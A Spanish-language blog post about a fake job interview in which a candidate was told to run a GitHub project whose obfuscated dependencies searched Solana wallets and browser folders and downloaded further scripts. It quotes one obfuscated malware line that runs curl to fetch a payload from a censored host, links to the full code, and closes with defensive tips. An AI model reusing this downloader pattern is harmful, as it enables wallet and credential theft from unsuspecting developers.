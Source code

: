 ```yaml
---
date: '2024-12-14T22:24:18-06:00'
title: 'Como Una Entrevista Laboral Se Convierte En Un Robo De Criptomonedas'
categories:
- opiniones
coverImage: "images/tech-interview-hacking-obfuscated-code.jpg"
description: 'Esta es la historia de un tipo que estuvo a punto de perder todo su criptomonedas y probablemente ser hackeado en una entrevista de trabajo para un puesto remoto'
keyword: ''
keywords:
- 'crypto'
- 'interview'
- 'github'
- 'hacking'
- 'docker'
authors:
- 'Eduardo Zepeda'
---
```


El otro día estaba navegando en esa máquina de propaganda política de Elon Musk, también conocida como X, y me topé con esta joya de la desvergüenza humana, un entrevistador que estuvo a punto de hackear a uno de sus postulantes.

## Ejecución de malware en las entrevistas laborales

La historia es esta: estás necesitado de trabajo, te preparas para la entrevista, y de repente el reclutador te pide clonar [una librería de Github](/es/el-problema-de-usar-github-para-evaluar-a-los-desarrolladores/) para que encuentres los errores en el código, una entrevista protocolaria para desarrollo de software, todo normal hasta este punto. Por supuesto que tú, necesitado de un buen laburo, decides seguir con el proceso.

Bueno, pues este chico fue lo suficientemente avispado como para leer el código a ejecutar antes de ejecutar ciegamente su voluminosa librería de *node_modules*. ¿Y con que se encontró? un suculento y delicioso código minimizado, ofuscado y con tintes de poner tu ordenador a minar criptomonedas. 

Nuestro amigo era como Jorge, curioso, así que embelleció el código y encontró:

- Lineas que parecen buscar y leer el contenido de carteras de Solana.
- Scripts que escanean directorios de navegadores.  
- [Llamadas a una API](/es/caracteristicas-basicas-de-una-api-rest/) directo a una dirección IP, sin dominio, algunos sin respuesta y otros que descargan scripts ofuscados en Python (supongo que le da un seguimiento al proceso de hackeo instalando un backdoor o algún RAT).


Si quieres ~~infectarte~~ leer el código visita [el repositorio de github](https://gist.github.com/jbrit/9a6525d086411a0fcffea202f368e780#file-initial-obfuscated-iife-js#?), no me hago responsable de nada.

``` javascript
_0x42b722("curl -Lo \"" + _0x157519 + "\" \"" + "http://<censored>/pdown" + "\"", (_0x204dd7, _0x6e1c16, _0x52b515) => {
  if (_0x204dd7) {
    _0x517b73 = 0;
    return void _0x70af27();
  })
```

## ¿Cómo evitamos caer en estas trampas?

No planeo quedarme solo en el drama. Esto se trata de ofrecer algunas soluciones prácticas para que los script kiddies no te vean la cara de novato en una falsa entrevista de trabajo:

### **Usa un dispositivo diferente**

La opción más cómoda, pero también la más cara, mantén tus dispositivos separados, usa un ordenador para trabajo y pruebas técnicas y otro para tus asuntos personales, criptomonedas incluidas. 

### **Lee el código, siempre que sea posible**

¿El reclutador te manda un script? Examínalo con cuidado antes de ejecutarlo. Sí, ya sé, a veces el código es demasiado extenso o está ofuscado, pero si tienes algo de experiencia, puedes pasar tus ojos rápidamente por la pantalla y detectar las red flags. Claro, tampoco puedes perder toda la tarde con esto si estás en una entrevista real o valoras tu tiempo.

### **Usa una máquina virtual**

Monta una máquina virtual, ya sea Virtual Box o Gnome Boxes, en Linux, o un [contenedor de Docker completamente aislado](/es/tutorial-de-comandos-basicos-de-docker/), si no te molesta no contar con una interfaz gráfica. 

Otra opción disponible, y mi favorita: una live USB con la distribución de tu elección (Debian, Fedora, o lo que quieras).

De esa manera, lo peor que puede pasar es que infecten tu máquina virtual y no tu equipo real con toda tu información personal. ¡Solo ten cuidado los volúmenes compartidos! Si montas tu disco duro en la VM, estás frito.

### **Cifra tu información sensible**

Aquí entra el clásico consejo de los veteranos de la vieja escuela de TI: **cifra tus datos importantes**. Si alguien logra acceder a tus colección de memes de gatitos, cífralos. 

No planeo ofrecer detalles porque ya hay demasiado en internet, Googlea sobre GPG o lee el manual directamente, si no estás tan familiarizado con la terminal o no te interesa, hay herramientas como Kleopatra, que vuelven más intuitivo el uso de la criptogorafía.

## No ejecutes código arbitrario en tu máquina personal

¿Tienes mejores ideas para protegernos de estas prácticas? Suelta tus consejos en redes sociales y etiquétame. Estoy ansioso de agregar tus sugerencias al post. 

Si quieres leer la historia completa dale una visita al blog de Elon... digo X.

{{< twitter user="jibolaojo" id="1860605769856508209" >}}



